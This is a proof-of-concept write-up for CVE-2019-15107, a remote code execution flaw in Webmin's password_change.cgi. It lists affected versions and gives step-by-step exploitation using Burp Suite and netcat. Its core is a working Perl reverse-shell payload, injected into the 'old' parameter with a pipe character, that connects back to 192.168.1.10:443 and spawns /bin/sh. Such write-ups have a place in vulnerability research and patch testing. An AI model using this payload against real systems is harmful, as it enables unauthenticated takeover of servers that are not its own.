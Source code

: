 # Proof of Concept: CVE-2019-15107 - Webmin Remote Code Execution (RCE)

## Overview

This Proof of Concept (PoC) demonstrates the exploitation of a critical vulnerability in Webmin (versions 1.882 to 1.921), identified as **CVE-2019-15107**. The vulnerability allows an unauthenticated remote attacker to execute arbitrary commands on the target system due to improper input validation in the **password_change.cgi** script.

- **CVE**: [CVE-2019-15107](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-15107)
- **Severity**: Critical
- **Vulnerability Type**: Remote Code Execution (RCE)
- **Affected Versions**: Webmin 1.882 to 1.921
- **Patched Version**: Webmin 1.930

## Vulnerability Details

The vulnerability exists in the `password_change.cgi` script, where improper sanitization of the `old` parameter allows an attacker to inject arbitrary commands using the vertical bar (`|`) character, leading to remote command execution.

## Exploitation

### Tools Required:
- Burp Suite or another HTTP interceptor
- Netcat for reverse shell listener

### Steps to Exploit:

1. **Intercept the Request**: 
   Use Burp Suite to intercept the HTTP request made to the `password_change.cgi` script when attempting to change a password on the Webmin server.

2. **Modify the `old` Parameter**: 
   Inject a malicious payload into the `old` parameter of the intercepted request. For this PoC, we will inject a reverse shell payload:

   ```bash
   old=some_password|perl -e 'use Socket;$i="192.168.1.10";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
   ```

3. **Send the Modified Request**: 
   Send the HTTP request with the malicious payload to the Webmin server via Burp Suite.
